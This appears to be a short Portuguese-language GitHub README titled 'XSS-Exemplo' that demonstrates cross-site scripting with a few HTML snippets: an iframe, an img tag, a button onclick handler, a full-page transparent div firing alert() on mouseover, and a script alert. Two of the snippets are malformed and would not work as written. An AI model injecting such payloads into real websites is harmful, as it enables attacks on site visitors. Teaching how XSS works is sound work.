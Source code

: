 # XSS-Exemplo
Exemplo de funmcionamento do ataque XSS


# iframe
`<iframe src="https://www.cristianoprogramador.com/">`

# img
`<img src="1https://www.cristianoprogramador.com/img/profile.jpg">`

# btn
`<button onclick="Alert Hackeado">Click me</button>`

# mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# script
`<script>alert('123')</script>`